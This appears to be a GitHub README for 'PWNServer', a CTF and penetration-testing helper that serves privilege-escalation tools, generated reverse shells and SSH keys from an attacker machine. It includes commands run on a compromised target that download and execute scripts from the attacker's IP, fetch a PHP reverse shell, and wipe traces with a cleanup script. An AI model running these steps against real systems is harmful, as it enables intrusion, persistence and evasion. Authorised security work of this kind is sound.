

# PWNServer
This is an idea I got from [IPPSEC](https://ippsec.rocks) which was to spin up a webserver with some useful tools at the beginning of CTF or job even because you know you'll probably need one. This one kind of got of hand, or maybe its just super useful, either way it does provide tools that I find handy in most jobs.

Currently **PWNServer** is focused on Linux targets. I will add Windows stuff at a later date.

## What it does
With **PWNServer** running you will have a variety of tools available to you via HTTP on your attacking box. This is helpful for several reasons. 

1. If the network you're on blocks github so you can't load tools directly onto a target machine; and
2. The tools will be prestaged and therefore loading them onto the target should be super peppy; and
3. Just about anything you want can be made ready at hand instead of having to go look for it or navigate a browser.

### Tools
In practice it means that once you have a foothold on a target computer you can run this command to get a big head start on finding root (10.10.10.17 = attack box IP):
```
$ wget http://10.10.10.37:80/client.sh -O client.sh;bash client.sh
--2022-04-20 14:19:20--  http://10.10.10.37/client.sh
Connecting to 10.10.10.37:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 851 [text/x-sh]
Saving to: ‘client.sh’
```
That command will proceed to run **client.sh** and download a bunch of tools into the "bin" directory. What tools? Tools like this:

* linpeas.sh
* pspy32
* pspy64
* LinEnum.sh
* linuxprivchecker.py

along with several others and any others you want to add.

A special script, **bugout.sh** is provided to follow the Boy Scout code and "Leave no trace". It will remove all of the files and directories in the current directory and below. It will only run from its own directory, so you don't have to worry about nuking an entire server.

### SSH
You will also have a newly generated SSH key available if you need it:
```
wget http://10.10.10.37:80/sshkey.pub
```
The private key will already be added to your available keys.

### Reverse Shells
The directory *shells.src* contains templates used to generate reverse shell scripts based on your attacker IP and port you are listening on (*LPORT* from config.py). The generated scripts are available by default in "/tmp/PWNServer/html/shells". 

Additionally, since it is so often needed for CTFs, Pentest Monkey's famous reverse shell script is available via this easy command:
```
wget http://10.10.14.17:80/shells/ptm-shell.php -O ptm-shell.php
```

## Requirements

This should work on just about any Linux system. It was developed on Python 3.9.12. It should run on earlier versions, but I haven't tested it on any.

## Installation

Get the code from github:
```
git clone https://github.com/kdirectorate/pwnserver.git
cd pwnserver
```
I highly recommend you create a virtual environment for this app. It is very easy to do:
```
python3 -m venv .venv
. .venv/bin/activate
pip install -r requirements.txt
cp config.py.example config.py
```
*config.py* contains your configuration settings and won't be overwritten if you update your copy of **PWNServer**. You should look it over to make sure it is acceptable to you. Especially the 1st few options:

* USERNAME
* APPNAME
* WEBSERVERPORT
* LPORT
* SERVERPATH

However, everything should work out of the box.

## Usage

To start the server run the setup.py program:

```
. .venv/bin/activate
./setup.py [YOURPUBLICIP]
```
By default this will do the following things:

1. Delete (if necessary) and create the "/tmp/PWNServer" directory (TEMPDIR); and
2. Copy all the files in the "html" directory to "(TEMPDIR)/html"; and
3. Copy a variety of Linux privesc tools from their repositories to "(TEMPDIR)/html/bin" and create a tarball of them; and
4. Generate a bunch of reverse shell scripts using [YOURPUBLICIP] and *LPORT* from **config.py** and put them in "(TEMPDIR)/html/shells" (see shells.src); and
5. Generate a one-off SSH key into "(TEMPDIR)/html/sshkey[& .pub]" and add it to your active keys via *ssh-add*; and
6. Display a list of common commands you may need so you can just copy/paste instead of typing them; and
7. Startup a web server serving files in the "(TEMPDIR)/html" directory.

You can take the webserver down by sending it the URI "/QUIT" remotely, or of course just **CTRL-C**. When you get back to pwning things you can skip most of the steps and just run the webserver via:
```
./setup.py -w [YOURPUBLICIP]
```
Don't worry, if  your IP has changed this will regenerate the reverse shell scripts. Mostly it just won't redownload all the tools from step 3. The full list of options is:
```
usage: Eb13l-Webserver [-h] [-w] [-p P] [-l L] ip

Setup Attacker webserver with the usual naughty tools.

positional arguments:
  ip          IP of our attacking box.

optional arguments:
  -h, --help  show this help message and exit
  -w          Start webserver only.
  -p P        Webserver port.
  -l L        Shell catcher port.

Be ethically naughty.
```

## Maintenance
I recommend you fork this project so that you can then store your custom **config.py** file in github. You may want to periodically check config.py.example to make sure any changes made to the list of packages to download get replicated to your config.py. 

## How it should look

[](https://asciinema.org/a/oiIDOrSWxFDcZuuiXNKDbaldk)